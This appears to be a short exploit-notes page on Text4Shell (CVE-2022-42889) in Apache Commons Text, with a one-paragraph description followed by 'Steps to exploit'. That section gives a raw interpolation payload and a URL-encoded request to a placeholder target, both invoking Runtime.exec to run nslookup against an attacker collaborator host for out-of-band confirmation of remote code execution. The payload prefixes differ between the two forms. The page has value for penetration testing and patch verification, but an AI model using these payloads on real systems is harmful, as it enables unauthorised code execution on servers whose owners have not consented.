 ```yaml
---
layout: default
title : nighthawk - Text4Shell  - Apache Text4Shell manual exploit
---
```



## Description
Text4Shell is a critical vulnerability that affects a wide range of systems. The vulnerability lies in the way these systems parse text strings and allows for the execution of arbitrary code or SSRF attacks. The vulnerability is exploited through crafted strings, where either JavaScript code is executed (leading to Remote Code Execution (RCE)) or URLs are fetched (leading to Server-Side Request Forgery (SSRF)).

### CVE
**CVE-2022-42889**


### Steps to exploit 

>exploit payload

```java
#normal payload

${url:UTF-8:java.lang.Runtime.getRuntime().exec('nslookup COLLABORATOR-HERE')}

#url encoded
https://your-target.com/exploit?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup%20COLLABORATOR-HERE%27%29%7d
```

